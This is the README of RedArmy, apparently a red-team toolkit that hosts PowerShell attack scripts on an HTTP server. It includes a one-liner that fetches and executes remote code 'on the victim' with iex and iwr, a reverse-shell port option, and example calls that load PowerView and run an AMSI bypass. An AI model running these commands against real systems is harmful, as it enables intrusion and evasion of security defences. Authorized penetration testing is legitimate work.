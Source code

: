 # RedArmy

## Installation

```
$ git clone https://gitlab.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ git submodule update --init --recursive
$ git submodule foreach ../../scripts/update_module # optional
```

## Configuration

RedArmy uses `config.default` as [the default config]. You can copy it
to `config` and add or delete lines as necessary.

Config entries look like the following:

```
name action path
```

Name and path are fairly self-explanatory. Actions are as follows:

- `get`
    - Creates
        - `Get-<name>`
            - Get file contents
        - `Deploy-<name>`
            - Create ScriptBlock and run in provided PSSession
- `get-bin`
    - Creates
        - `Import-<name>`
            - Create assembly object and load into memory
        - `Deploy-<name>`
            - Create assembly object and load into memory in provided
              PSSession
- `run`
    - Creates
        - `Get-<name>`
            - Get file contents
        - `Invoke-<name>`
            - Run `iex` on file contents
        - `Invoke-<name>InBg`
            - Run `iex` on file contents in background
        - `Deploy-<name>`
            - Create ScriptBlock and run in provided PSSession
        - `Deploy-<name>InBg`
            - Create ScriptBlock and run in provided PSSession in
              background
- `run-bin`
    - Not yet implemented

See [the default config] for examples. See [Examples](#examples) for
more details on how to use these functions.

[the default config]: ./config.default

## Usage

```
$ ./serve -h
Usage: serve [OPTIONS] <ip>

Spin up a simple HTTP server to host the RedArmy scripts.

Options:
    -c, --config=FILE    Use the specified config
    -h, --help           Display this help message
    --invade=FILE        Use the specified invade filename instead of
                         invade.html
    --no-color           Disable colorized output
    -p, --port=NUM       Use the specified port (default: 8080)
    -r, --rport=NUM      Use the specified port for reverse shell
                         (default: 4444)
    --rshell=FILE        Use the specified rshell filename instead of
                         rshell.html
    -u, --update         Update git submodules
```

Once the `serve` script is running, you can use the following to load
RedArmy on the victim:

- `iex (iwr -DisableKeepAlive -UseBasicParsing
  http://<ip>:<port>/invade.html)`

That command will also displayed for you to copy and paste for
convenience.

### Examples

- Load ps1 script into current session
    - `iex (Get-PowerView)`
- Load ps1 script into specified session
    - `Deploy-PowerView <session>`
- Load binary object into current session
    - `Import-ADModule`
- Load binary object into specified session
    - `Deploy-ADModule <session>`
- Run ps1 script in current session
    - `Invoke-AMSIBypass`
- Run ps1 script in current session in background
    - `Invoke-AMSIBypassInBg`
- Run ps1 script in specified session
    - `Deploy-AMSIBypass <session>`
- Run ps1 script in specified session in background
    - `Deploy-AMSIBypassInBg <session>`
